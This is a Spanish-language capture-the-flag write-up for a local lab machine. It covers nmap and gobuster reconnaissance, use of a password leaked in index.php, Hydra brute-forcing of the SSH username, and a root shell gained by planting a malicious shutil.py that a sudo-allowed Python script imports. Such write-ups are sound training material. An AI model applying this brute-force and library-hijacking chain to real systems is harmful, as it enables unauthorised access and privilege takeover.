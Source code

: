 ## 1. Reconocimiento Inicial con Nmap

El primer paso en cualquier evaluación de seguridad es el reconocimiento de la red y los servicios expuestos.

```bash
nmap -O -sC -sV 172.17.0.2
```

### Resultado del Escaneo Nmap

```bash
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:    
|   256 f9:f6:fc:f7:f8:4d:d4:74:51:4c:88:23:54:a0:b3:af (ECDSA)  
|_  256 fd:5b:01:b6:d2:18:ae:a3:6f:26:b2:3c:00:e5:12:c1 (ED25519)  
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))  
|_http-server-header: Apache/2.4.58 (Ubuntu)  
|_http-title: Apache2 Ubuntu Default Page: It works  
MAC Address: 02:42:AC:11:00:02 (Unknown)  
Device type: general purpose|router  
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X  
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3  
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)  
Network Distance: 1 hop  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 2. Enumeración de Contenido Web con Gobuster

Dado que el puerto 80 está abierto y muestra la página por defecto de Apache, el siguiente paso es realizar una enumeración de directorios y archivos para descubrir contenido oculto o no enlazado. 

### Comando Gobuster

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html, txt
```

### Resultado de Gobuster

```bash
/.html                (Status: 403) [Size: 275]  
/index.html           (Status: 200) [Size: 10671]  
/index.php            (Status: 200) [Size: 26]  
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]  
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
```

El escaneo de `gobuster` revela varios archivos y directorios interesantes:

*   `/index.html`: La página principal del sitio web (la página por defecto de Apache).
*   `/index.php`: Un archivo PHP que devuelve un código de estado `200` (OK) y un tamaño de 26 bytes. Esto es inusualmente pequeño para una página web completa y sugiere que podría contener información sensible o una pista.
*   `/javascript`: Un directorio que devuelve un código de estado `301` (Redirección Permanente).
*   `/.html` y `/server-status`: Ambos devuelven `403 Forbidden`, lo que significa que existen pero el acceso está denegado.

### Contenido de `index.php`

Al acceder a `http://172.17.0.2/index.php`, se encuentra el siguiente contenido:

```txt
JIFGHDS87GYDFIGD
```

Esta cadena es muy probable que sea una credencial o una clave. 

## 3. Acceso Inicial vía SSH

Con la cadena `JIFGHDS87GYDFIGD` obtenida, el siguiente paso es intentar utilizarla como contraseña para acceder al sistema a través de SSH. Se necesita un nombre de usuario. 

```bash
hydra -L /rutaASeclists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD 172.17.0.2 ssh
```

**Salida**
```
[22][ssh] host: 172.17.0.2   login: carlos   password: JIFGHDS87GYDFIGD
```
### Conexión SSH

```bash
ssh carlos@172.17.0.2
# JIFGHDS87GYDFIGD
```

Se obtiene acceso a una shell de usuario.

## 4. Escalada de Privilegios: Python Library Hijacking

Una vez que se ha obtenido acceso como un usuario de bajos privilegios (`carlos`), el siguiente objetivo es escalar privilegios a `root`. Se utiliza el comando `sudo -l` para verificar qué comandos puede ejecutar el usuario `carlos` con privilegios de `sudo` sin necesidad de contraseña.

### Verificación de Permisos `sudo`

```bash
sudo -l
# (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```

El usuario `carlos` puede ejecutar el comando `/usr/bin/python3 /opt/script.py` como cualquier usuario (ALL), incluyendo `root`, y lo más importante, `NOPASSWD`, lo que significa que no se le pedirá la contraseña para ejecutarlo. 

### Análisis del Script Python (`/opt/script.py`)

Se navega al directorio `/opt` y se inspecciona el contenido del script `script.py`:

```bash
cd /opt 
cat script.py


import shutil  
  
def copiar_archivo(origen, destino):  
   shutil.copy(origen, destino)  
   print(f'Archivo copiado de {origen} a {destino}')  
  
if __name__ == '__main__':  
   origen = '/opt/script.py'  
   destino = '/tmp/script_backup.py'  
   copiar_archivo(origen, destino)
```

El script `script.py` importa la librería `shutil` y utiliza la función `shutil.copy` para copiar el propio script a `/tmp/script_backup.py`. La clave de la vulnerabilidad reside en la línea `import shutil`. Cuando Python importa un módulo, busca en una serie de directorios predefinidos . Si un módulo con el mismo nombre existe en el directorio actual, Python lo cargará en lugar del módulo legítimo del sistema. Esto se conoce como **Python Library Hijacking** o secuestro de librerías de Python.

### Explotación: Secuestro de la Librería `shutil`

Para explotar esta vulnerabilidad, se creará un archivo llamado `shutil.py` en el mismo directorio donde se ejecutará `script.py` (o en un directorio que tenga precedencia en la ruta de búsqueda de módulos de Python). Este `shutil.py` malicioso contendrá código que nos dará una shell de `root`.

```bash
touch shutil.py
echo -e "import os\nos.system(\"bash -p\")" > shutil.py
```

### Ejecución del Script y Obtención de Root

```bash
sudo -u root /usr/bin/python3 /opt/script.py
```

Cuando `script.py` intente importar `shutil`, Python cargará nuestro `shutil.py` malicioso en lugar del legítimo. Esto ejecutará `os.system("bash -p")`, dándonos una shell con privilegios de `root`.

Se verifica el usuario actual:

```bash
whoami
# root
```
